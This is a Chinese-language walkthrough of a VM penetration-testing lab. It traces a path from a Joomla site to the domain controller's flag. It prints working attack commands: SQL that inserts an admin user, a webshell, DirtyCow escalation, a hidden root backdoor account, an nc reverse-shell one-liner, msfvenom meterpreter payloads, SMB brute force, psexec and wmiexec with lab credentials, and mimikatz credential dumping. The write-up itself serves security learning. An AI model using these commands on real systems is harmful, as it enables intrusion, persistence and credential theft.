# 环境搭建

打开虚拟机镜像为挂起状态，第一时间进行快照，部分服务未做自启，重启后无法自动运行。

挂起状态，账号已默认登陆，centos为出网机，第一次运行，需重新获取桥接模式网卡ip。

除重新获取ip，不建议进行任何虚拟机操作。

参考虚拟机网络配置，添加新的网络，该网络作为内部网络。

## 描述

目标：域控中存在一份重要文件。
`本次环境为黑盒测试`，不提供虚拟机账号密码。

拓扑图



## vmware网络设置

、

因为配置的外网是192.168.1.110，内网是192.168.93.0，所以添加一个vmnet2，nat模式网段改成192.168.1.0

**centos**配置网卡


过程中如果出现VMware workstation不可恢复错误的话，关闭虚拟机设置中显示器的3D图形加速

可以用**powercfg -h off**关闭windows的自动休眠，否则休眠后需要输入密码

因为设置了nginx反向代理，所以要确保Ubuntu的ip正确，其他的稍微有点变化无所谓

最终ip如下：

1. 外网机centos：

   外网ip：192.168.1.110

   内网ip：192.168.93.100

2. Ubuntu：

   ip：192.168.93.120 

3. PC(WIN7)：

   ip：192.168.93.30 

4. win2008：

   ip：192.168.93.20

5. win2012：

   ip：192.168.93.10

# 外网信息收集



发现主机192.168.1.110

也可以用nmap进行网段扫描

```
nmap -A -v -T4 192.168.1.1/24
```



开启了ssh和MySQL，在80端口开放了http服务，中间件nginx，网站是joomla

访问80端口也是识别到了网站为joomla



用msf探测到joomla版本为3.9.12



在msf中没有找到对应的exp，试试joomscan

```
sudo apt update
sudo apt install joomscan

joomscan -u "http://192.168.1.110/"
```

扫描结果

```
processing http://192.168.1.110/ ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.9.12

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://192.168.1.110/administrator/components
http://192.168.1.110/administrator/modules
http://192.168.1.110/administrator/templates                                                                             
http://192.168.1.110/images/banners                                                                                      
                                                                                                                         
                                                                                                                         
[+] Checking apache info/status files                                                                                    
[++] Readable info/status files are not found                                                                            
                                                                                                                         
[+] admin finder                                                                                                         
[++] Admin page : http://192.168.1.110/administrator/                                                                    
                                                                                                                         
[+] Checking robots.txt existing                                                                                         
[++] robots.txt is found                                                                                                 
path : http://192.168.1.110/robots.txt                                                                                   
                                                                                                                         
Interesting path found from robots.txt                                                                                   
http://192.168.1.110/joomla/administrator/                                                                               
http://192.168.1.110/administrator/                                                                                      
http://192.168.1.110/bin/                                                                                                
http://192.168.1.110/cache/                                                                                              
http://192.168.1.110/cli/                                                                                                
http://192.168.1.110/components/                                                                                         
http://192.168.1.110/includes/                                                                                           
http://192.168.1.110/installation/                                                                                       
http://192.168.1.110/language/                                                                                           
http://192.168.1.110/layouts/                                                                                            
http://192.168.1.110/libraries/                                                                                          
http://192.168.1.110/logs/                                                                                               
http://192.168.1.110/modules/                                                                                            
http://192.168.1.110/plugins/                                                                                            
http://192.168.1.110/tmp/                                                                                                
                                                                                                                         
                                                                                                                         
[+] Finding common backup files name                                                                                     
[++] Backup files are not found                                                                                          
                                                                                                                         
[+] Finding common log files name                                                                                        
[++] error log is not found                                                                                              
                                                                                                                         
[+] Checking sensitive config.php.x file                                                                                 
[++] Readable config file is found                                                                                       
 config file path : http://192.168.1.110/configuration.php~                                                              
                                                                                                               
Your Report : reports/192.168.1.110/    
```

没有扫到可用的漏洞，但是扫到了一些敏感目录，还有配置文件`configuration.php~`，后台登录目录 `http://192.168.1.110/administrator/`              



配置文件中泄露了MySQL的账号和密码




这里推荐拿御剑，dirsearch这些扫描器再扫一遍，因为joomla只是针对正常的目录扫描，而dirsearch可用扫到另外一些常见的文件，比如说这里扫到一个1.php有phpinfo泄露



​    没有前台的RCE，这里拿到数据库密码，又开启了3306端口，有MySQL服务，尝试去登陆后台，在网上搜到了很多后台的RCE

CVE-2020-11890<3.9.17远程命令执行漏洞

CVE-2020-10238 <= 3.9.15 远程命令执行漏洞

CVE-2020-10239 	3.7.0to3.9.15 	远程命令执行漏洞

CVE-2021-23132 3.0.0 <= Joomla! <= 3.9.24

https://github.com/HoangKien1020/CVE-2021-23132

至于去连接数据库，用Navicat去连接

安装教程https://www.jianshu.com/p/9c4c499429da

## 后台登陆

连接成功



在user表中找到了admin



不过密码是加密的，不能直接登陆，所以我们考虑插入一个新的admin用户

在https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F/zh-cn给到了插入一个admin2/secret管理员用户的SQL代码



改一下表名

```
INSERT INTO `am2zu_users`
   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2',
    'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`)
VALUES (LAST_INSERT_ID(),'8');
```



插入成功



也可以直接用MySQL去连接

```
mysql -h 192.168.1.110 -P 3306 -u testuser -p
```



登陆成功



## Getshell

根据利用Joomla < v3.9.15 远程命令执行漏洞getshell
Extensions->Templates->Templates->Beez3 Details and Files->New File 新建文件 1.php，写入一句话木马。



用蚁剑连接`http://192.168.1.110/templates/beez3/1.php`



在蚁剑执行命令的时候返回ret=127



看看之前phpinfo泄露的，发现了disable_functions



## 绕过disable_functions

直接用蚁剑自带的插件绕过





绕过成功

但是当前的ip为192.168.93.120，并不是连接的ip（192.168.1.110），说明真正的web服务器是192.168.93.120这台机器，这里应该是设置了一个nginx的反向代理

在centos这台机器上的nginx的配置文件看到了反向代理的设置



访问80端口的时候，跳转到192.168.93.120的web根目录下

```
uname -a #显示系统信息
ifconfig #获取本机网络配置信息
cat /proc/version # 获取内核信息
whoami    # 查看当前用户
id    # 查看当前用户信息
route    # 打印路由信息
netstat -anpt #查看端口状态
cat /etc/passwd    # 列出系统所有用户
cat /etc/group    # 查看系统所有组
ps -ef 查看所有进程
```



内核是Ubuntu，但是比较新，尝试了pkexec也不行，当时这个靶场出来的时候也没有爆出pkexec这个提权洞，既然是反向代理，那还会有一台机器，说不定在那台机器是可以提权的

看师傅们的过程，在/tmp/mysql/test.txt发现了用户名密码



这还是有点难想到啊

用Xshell去连centos


# 内网渗透

## centos提权

拿下了出网机，要对内网渗透的话，基本上要配置代理，那就需要将centos提权

LES：Linux 提权审计工具
工具地址：https://github.com/mzet-/linux-exploit-suggester
上传linux-exploit-suggester.sh到centos服务器上并运行



发现这么多提权，直接用脏牛提权

```
https://github.com/FireFart/dirtycow

gcc -pthread dirty.c -o dirty -lcrypt
rm /tmp/passwd.bak
./dirty 123456

然后su firefart
密码123456
```


## 权限维持，添加 root 后门

```
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/mysqld

```

## ubuntu&CVE-2021-3493提权

刚才直接试了pkexec和CVE-2021-3493都不行，原来需要先用蚁剑把Ubuntu的shell弹到centos上再进行提权

首先是centos安装nc（https://blog.csdn.net/weixin_40583191/article/details/106803430）

```
反弹shell

centos
nc -l 2333

ubuntu
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.93.100 2333 >/tmp/f

```



除此之外，之前没有成功的pkexec提权也可以



## msf上线centos

利用CrossC2生成一个linux的shell，名为test

```
./genCrossC2.Linux 192.168.1.128 6666 null null Linux x64 test
```

这里因为兼容性的问题，我就没有用CrossC2了，直接用msf上线了

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.129 LPORT=9999 -f elf > shell.elf
```

```
msf起监听
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.1.129
set lport 9999
run
```

上传到centos上运行，运行前要`chmod +x shell.elf`


## 内网横向

从得到的Ubuntu路由192.168.93.120来看，我们添加路由

```
run autoroute -s 192.168.93.0/24
background
```

存活主机探测

```
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.93.0/24
exploit
```







扫到三台存活的windows靶机，并且都加入了域TEST

## socks代理

### 正向代理

```
use auxiliary/server/socks4a
set srvport 1080
exploit

vim /etc/proxychains.conf 
最后一行添加socks4 127.0.0.1 1080
```

### 反向代理

https://github.com/idlefire/ew

将ew_for_linux64上传到centos

```
./ew_for_linux64 -s ssocksd -l 8888
```

kali代理设置

```
vim /etc/proxychains.conf 
```



设置bash全局代理

```
proxychains bash
```

## 内网服务探测

```
nmap -A -v -T4 192.168.93.10
```



```
nmap -A -v -T4 192.168.93.20
```



```
nmap -A -v -T4 192.168.93.30
```



只有20有一个开放的web服务，但是没有什么用，除此之外都开启了smb服务，尝试17_010永恒之蓝也不行

能够尝试的只有smb爆破与数据库爆破

## smb爆破

因为用的反向代理，所以利用windows的工具proxifier

】

用railgun爆破（这里是看到密码自己添加的，我字典里面没有123qwe!ASD）


# SMB登陆

## PsExec

```
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.20
set smbuser administrator
set smbpass 123qwe!ASD
run
```



## 查看共享目录并登录

```
smbclient -L 192.168.93.20 -U administrator

smbclient //192.168.93.20/ADMIN$ -U administrator
```


## wmiexec smb登录

wmi 出现在所有的 windows 操作系统中，由一组强大的工具集合组成，用于管理本地或远程的 windows 系统。攻击者使用 wmi 攻击时 windows 系统默认不会在日志中记录这些操作，可以做到无日志、攻击脚本无需写入到磁盘，增加了隐蔽性。

wmiexec 执行命令，搜集信息，参考：wmiexec.py 下载地址：https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

```
git clone https://github.com/CoreSecurity/impacket.git
cd impacket/
python3 -m pip install  .（pip install . 两个空格）（若pip安装出错，尝试apt install gcc-9-base ，重新下载apt-get install python-pip）
```

```
python3 wmiexec.py -debug 'administrator:123qwe!ASD@192.168.93.20'
```



# 定位域控

其实在端口扫描的过程中，我们可以发现10开放了53端口，为DNS服务端口，可以大致的判断10为域控

登上20和30后，可以确认一下

```
ipconfig /all  #获取本机网络配置信息
wmic service list brief  #查看本机服务
tasklist  #查看进程列表
wmic process list brief #查看进程信息
schtasks /query /fo LIST /v #查看计划任务
net user #查看本机用户列表
netstat -ano #查看端口状态
systeminfo  #查看补丁列表
net share #查询本机共享列表

```



dns servers是192.168.93.10，说明判断没错



ping域控也是192.168.93.10

## mimikatz获取账号密码

kali 使用 smbclient 通过代理连接 windows server 2008 上传 mimikatz。下载地址 https://github.com/gentilkiwi/mimikatz/releases

```
proxychains smbclient //192.168.93.20/C$ -U administrator
put mimikatz.exe
```





上传成功，上传后用wmiexec执行

```
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > log.log
```





抓取到密码zxcASDqw123!!

# IPC连接

IPC（Internet Process Connection）是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。利用IPC连接者可以与目标主机建立一个连接，得到目标主机上的目录结构、用户列表等信息。

利用条件：

1. 管理员开启了默认共享
2. 139或445端口开放

建立IPC远程连接读取域控上的文件

```
net use \\192.168.93.10\admin$ zxcASDqw123!! /user:test\administrator   #系统默认路径c:\windows\下
dir \\192.168.93.10\C$\users\administrator\Documents
type \\192.168.93.10\C$\users\administrator\Documents\flag.txt
```

这次的渗透过程差不多就到这里


# 写在最后

​    对于渗透，思路都有了一定的了解后就是实战，一些工具的利用，正向和反向socks代理的应用，之前都是通过永恒之蓝拿下的域控，这次有了另外的思路，那就是通过爆破smb密码（需要一定的字典），通过SMB登陆可以上传文件，不用上线CS，单用msf就完成mimikatz进行密码抓取，这次还学到了linux的木马生成，之前都是直接上线windows，还有对于linux系统提权的问题，绕过用的蚁剑需要想办法弹出来一个shell再进行提权，下次打靶机的时候，可以再对权限维持进行一个深入，毕竟拿下来后还需要做一个权限维持最好


参考链接

https://blog.csdn.net/qq_38626043/article/details/119354151

https://blog.csdn.net/weixin_68652890/article/details/124719066

https://cloud.tencent.com/developer/article/2130026

https://www.cnblogs.com/wkzb/p/13281772.html
